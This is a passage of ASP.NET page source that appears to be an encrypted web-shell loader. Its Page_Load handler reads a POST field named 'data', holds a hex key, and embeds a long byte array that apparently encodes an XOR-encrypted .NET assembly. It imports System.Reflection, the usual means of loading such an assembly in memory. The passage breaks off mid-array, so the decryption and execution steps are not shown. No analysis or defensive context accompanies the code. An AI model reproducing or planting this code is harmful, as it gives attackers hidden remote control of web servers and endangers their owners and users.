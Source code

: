 ```
`<%@ Import Namespace="System" %>``<%@ Import Namespace="System.Web" %>``<%@ Import Namespace="System.Reflection" %>``<script Language="c#" runat="server">``void Page_Load(object sender, EventArgs e)``{` `string p = "c58b9d11b2c9c4725d6521ee4cc74f71f120c7bf95e2a0bf8898c229aaf410c4";` `string r = Request.Form["data"];` `byte[] a = {0x2e,0x6f,0xa8,0x62,0x3a,0x64,0x31,0x31,0x66,0x32,0x63,0x39,0x9c,0xcb,0x37,0x32,0x8d,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x74,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0xb1,0x30,0x63,0x34,0x6d,0x2a,0x82,0x6c,0x39,0xd0,0x38,0xfc,0x43,0x8a,0x62,0x75,0xae,0x15,0x63,0x5a,0x5c,0x17,0x16,0x45,0x40,0x5e,0x2,0x17,0x55,0xe,0x43,0x54,0x55,0x8,0x59,0x5e,0x12,0x11,0x50,0x55,0x43,0x45,0x17,0x8,0x19,0x5c,0xb,0x12,0x25,0x7f,0x31,0x46,0x55,0x57,0x5d,0x5d,0x4d,0x3f,0x3f,0x33,0x45,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x33,0x70,0x38,0x62,0x75,0x65,0x32,0x31,0x9e,0x7b,0x38,0x65,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0xd2,0x31,0x6b,0x44,0x3f,0x62,0x6b,0x37,0x34,0x6c,0x37,0x31,0x66,0x37,0x32,0x30,0x63,0x37,0x62,0x66,0x47,0x1c,0x65,0x32,0x61,0x10,0x62,0x66,0x38,0x78,0x39,0x38,0x63,0x32,0x72,0x39,0x61,0x41,0x66,0x34,0x31,0x32,0x63,0x34,0x67,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x66,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0xe4,0x36,0x35,0x32,0x33,0x65,0x65,0x34,0x63,0x63,0x37,0x37,0x66,0x77,0x34,0x66,0x31,0x22,0x30,0x63,0x27,0x62,0x66,0x39,0x35,0x75,0x32,0x61,0x20,0x62,0x66,0x38,0x38,0x39,0x38,0x73,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x53,0x1c,0x38,0x62,0x72,0x64,0x31,0x31,0x62,0x72,0x63,0x39,0xbb,0x36,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x51,0x32,0x30,0x6f,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x43,0x63,0x37,0x3c,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x31,0x15,0x65,0x32,0x29,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x4f,0x15,0x3,0x4c,0x45,0x30,0x63,0x34,0xe7,0x3c,0x38,0x62,0x39,0x44,0x31,0x31,0x62,0x38,0x63,0x39,0x63,0x36,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x14,0x66,0x37,0x51,0x48,0x43,0x41,0x42,0x0,0x37,0x62,0x66,0xe1,0x37,0x65,0x32,0x61,0x70,0x62,0x66,0x38,0x3c,0x39,0x38,0x63,0x3e,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x79,0x64,0x31,0x71,0x4c,0x40,0x6,0x55,0xc,0x57,0x37,0x32,0x39,0x64,0x36,0x35,0x32,0x51,0x65,0x65,0x34,0x61,0x63,0x37,0x34,0x76,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x21,0x30,0x62,0x24,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x3,0x1c,0x38,0x62,0x39,0x64,0x31,0x31,0x2a,0x32,0x63,0x39,0x61,0x34,0x32,0x32,0xd9,0x45,0x36,0x35,0x76,0x36,0x65,0x65,0x35,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x26,0x54,0x30,0x35,0x6,0x31,0x65,0x65,0x35,0x63,0x63,0x26,0x1c,0x65,0x37,0x31,0x6c,0x35,0x5d,0x34,0x63,0x37,0x68,0x6c,0x3a,0xbb,0xc,0xbf,0x64,0x30,0x62,0x67,0x33,0x2e,0x35,0x13,0x70,0x35,0x3a,0x3a,0x69,0xf0,0x60,0x3c,0x37,0xbe,0xa,0x69,0xf2,0x54,0xea,0xfe,0x31,0x73,0x69,0x3d,0x6a,0x31,0xed,0x50,0x51,0xd3,0x30,0x18,0x2e,0x54,0x33,0x35,0x4,0x30,0x65,0x65,0x36,0x63,0x63,0x26,0x46,0x67,0x37,0x31,0x16,0x3b,0x31,0x9,0x4b,0x36,0x62,0x66,0x3a,0x1d,0x60,0x32,0x61,0x3a,0x69,0x64,0x3f,0x3c,0x11,0x39,0x63,0x32,0x34,0x35,0x49,0x62,0x66,0x34,0x3b,0x38,0xc,0x32,0x63,0x35,0x32,0x6f,0x4a,0x63,0x31,0x31,0x68,0x21,0x67,0x2d,0x70,0x31,0x44,0x3a,0x35,0x64,0x3c,0x26,0x34,0x42,0x6c,0x65,0x34,0x69,0x70,0x30,0x25,0x61,0x20,0x5e,0x6c,0x31,0x32,0x3a,0x72,0x30,0x74,0x9,0x32,0x35,0x65,0x38,0x70,0x37,0xd,0x6a,0x38,0x38,0x33,0x4a,0x60,0x32,0x32,0x49,0xe,0x6c,0x66,0x34,0x3b,0x16,0x72,0x32,0x72,0x32,0x2f,0xef,0x33,0x64,0x31,0x30,0x71,0x3d,0x72,0x36,0x75,0x3d,0x95,0x23,0x3a,0xb,0x38,0x35,0x32,0x3b,0x76,0x60,0x25,0x66,0xc,0x38,0x34,0x66,0x3d,0x43,0x7f,0x31,0x32,0x40,0xc,0x27,0x62,0x66,0x33,0x26,0x6d,0x23,0x69,0x5f,0x73,0x66,0x38,0x32,0x4b,0x9,0x63,0x32,0x42,0x56,0x73,0x61,0x66,0x3e,0x22,0x39,0x72,0x3d,0x72,0x3d,0x2c,0xd,0x2a,0x64,0x31,0x3b,0x71,0x36,0xbd,0x51,0x70,0x3e,0x26,0x38,0x5a,0x70,0x36,0x35,0x38,0x43,0x2c,0x65,0x34,0x13,0x4b,0x22,0x34,0x66,0x3d,0x22,0x6d,0x27,0x21,0x3c,0x48,0x19,0x73,0x6d,0x2b,0x39,0x4d,0x24,0x61,0x30,0x68,0x14,0x43,0x38,0x39,0x48,0x72,0x37,0x5d,0x2e,0x61,0x61,0x6c,0x25,0x3d,0x5f,0x7b,0x34,0x63,0x3f,0x57,0x76,0x39,0x64,0x3b,0x19,0x7b,0x32,0x63,0x33,0x70,0x3f,0x26,0x3e,0x22,0x3c,0x25,0x39,0x23,0x3d,0x74,0x60,0x5b,0x74,0x63,0x37,0x3e,0x9,0x2d,0x31,0x66,0x3b,0x0,0xf2,0x4b,0x34,0x62,0x66,0x33,0x24,0x6e,0x5d,0x65,0x30,0x62,0x6c,0x2b,0x3c,0xe7,0x38,0x61,0x23,0x36,0x4d,0x60,0x61,0x66,0x2f,0x35,0x18,0x62,0x34,0x63,0x33,0x2b,0x6f,0x28,0x69,0x19,0x2a,0x62,0x32,0x69,0x2a,0x6d,0x25,0x39,0x38,0x33,0x4e,0x36,0x35,0x33,0x21,0x65,0x65,0x34,0x63,0x51,0x37,0x4a,0xd6,0x37,0x59,0x73,0x31,0x32,0x31,0x7d,0x35,0x4a,0x61,0x39,0x35,0x6f,0x18,0x23,0x63,0x28,0x24,0x39,0x38,0x38,0x38,0x63,0x32,0x32,0x39,0x6d,0x61,0x66,0x34,0x47,0x2,0x4d,0x4,0x4d,0x0,0x8,0x55,0xb,0x53,0x31,0x31,0x62,0x32,0x66,0x39,0xf,0x34,0x37,0x32,0x15,0x66,0x36,0x35,0x11,0x4f,0x65,0x65,0xb8,0x61,0x63,0x37,0x74,0x65,0x37,0x31,0x45,0x62,0x46,0x42,0xa,0x59,0x5,0x15,0x39,0x35,0x65,0x32,0xad,0x35,0x62,0x66,0xbc,0x38,0x39,0x38,0x40,0x67,0x61,0x39,0x31,0x67,0x66,0x34,0x21,0x30,0x63,0x34,0x40,0x72,0x6d,0x2b,0x7d,0x64,0x31,0x31,0x2,0x34,0x63,0x39,0x87,0x34,0x37,0x32,0x16,0x26,0x5a,0x5a,0x50,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x36,0x66,0x37,0x30,0x21,0x24,0x30,0x38,0x6a,0x37,0x62,0x6
```